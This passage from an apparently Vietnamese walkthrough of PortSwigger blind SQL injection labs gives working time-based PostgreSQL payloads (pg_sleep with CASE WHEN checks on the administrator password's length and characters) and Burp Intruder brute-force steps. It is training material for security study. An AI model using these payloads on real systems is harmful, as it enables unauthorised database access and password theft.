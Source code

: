 Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![](https://hackmd.io/_uploads/BJ0D3jAM6.png)

Vì ta chưa biết web sử dụng DB loại gì, nên sẽ thử từng cái. Sau khi thêm đến `'+||+pg_sleep(10)--` thì thành công
![](https://hackmd.io/_uploads/rkVw0sAG6.png)

# Lab 15: Blind SQL injection with time delays and information retrieval
![](https://hackmd.io/_uploads/H1YL5iRza.png)
Tương tự lab trên

Đầu tiên, kiểm tra xem web sử dụng DB loại nào
![](https://hackmd.io/_uploads/ryB5i4kQT.png)
Thử lệnh `|| pg_sleep(10)` thì thấy web phản hồi khá lâu còn các lệnh khác thì rất nhanh, chứng tỏ web sử dụng `PostgreSQL`

Tiếp theo, payload lệnh
```sql
'||(SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
Khi username là `administrator` có độ dài password > 1 thì web sẽ phản hổi sau 10s, ngược lại web phản hồi ngay

Gửi qua Intruder, thử 1 -> 30
![](https://hackmd.io/_uploads/SJvvCV17T.png)
![](https://hackmd.io/_uploads/BkDx1rJXp.png)
![](https://hackmd.io/_uploads/HJHxxrJXa.png)
![](https://hackmd.io/_uploads/S1LZlHJ7a.png)

Ở request 20 ta thấy thời gian phản hồi giảm hẳn => password có độ dài 20 kí tự
![](https://hackmd.io/_uploads/HJWQxr17a.png)

Tiếp theo, payload lệnh để kiểm tra từng kí tự của password
```sql
'||(SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users)--
```
Attack type: Cluster bomb
![](https://hackmd.io/_uploads/H1Rgbr1mp.png)
![](https://hackmd.io/_uploads/ryZ8bB1Xa.png)
![](https://hackmd.io/_uploads/BJZv-SJmp.png)
![](https://hackmd.io/_uploads/BkX4-r1QT.png)

Ta thấy những phản hổi lớn hơn 10s thì chính là kí tự chính xác
![](https://hackmd.io/_uploads/Hkr2Nr1mp.png)
